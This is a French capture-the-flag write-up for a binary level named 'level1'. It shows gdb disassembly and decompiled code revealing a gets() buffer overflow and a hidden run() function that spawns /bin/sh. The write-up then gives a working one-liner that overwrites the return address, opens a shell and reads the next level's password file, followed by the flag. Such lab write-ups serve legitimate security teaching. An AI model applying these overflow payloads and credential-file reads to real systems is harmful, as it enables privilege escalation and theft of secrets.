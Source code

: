 gdb level1

le main :                                                
0x8048480 <main>        push   %ebp                 
0x8048481 <main+1>      mov    %esp,%ebp            
0x8048483 <main+3>      and    $0xfffffff0,%esp     
0x8048486 <main+6>      sub    $0x50,%esp           
0x8048489 <main+9>      lea    0x10(%esp),%eax      
0x804848d <main+13>     mov    %eax,(%esp)          
0x8048490 <main+16>     call   0x8048340 <gets@plt> 
0x8048495 <main+21>     leave
0x8048496 <main+22>     ret

ainsi que la fonction run: 
│0x8048444 <run>                 push   %ebp
│0x8048445 <run+1>               mov    %esp,%ebp 
│0x8048447 <run+3>               sub    $0x18,%esp
│0x804844a <run+6>               mov    0x80497c0,%eax
│0x804844f <run+11>              mov    %eax,%edx 
│0x8048451 <run+13>              mov    $0x8048570,%eax 
│0x8048456 <run+18>              mov    %edx,0xc(%esp) 
│0x804845a <run+22>              movl   $0x13,0x8(%esp) 
│0x8048462 <run+30>              movl   $0x1,0x4(%esp) 
│0x804846a <run+38>              mov    %eax,(%esp)  
│0x804846d <run+41>              call   0x8048350 <fwrite@plt>  
│0x8048472 <run+46>              movl   $0x8048584,(%esp)
│0x8048479 <run+53>              call   0x8048360 <system@plt>
│0x804847e <run+58>              leave
│0x804847f <run+59>              ret 

en lancant le binaire dans hex ray ou ghidra on obtient :

int run()
{
  return system("/bin/sh");
}

//----- (08048480) --------------------------------------------------------
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[64]; // [esp+10h] [ebp-40h] BYREF

  return (int)gets(s);
}

le but est de lancer la fonction run() pour obtenir un shell avec les droits de l'utilisateur level2
on peux donc voir que la fonction run() est appelée si on arrive à écrire plus de 64 caractères dans la variable s

on fait la commande suivante pour obtenir le flag :
(python -c "print('A' * 76 + '\x44\x84\x04\x08')" ; echo "cat /home/user/level2/.pass") | ./level1
Good... Wait what?
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77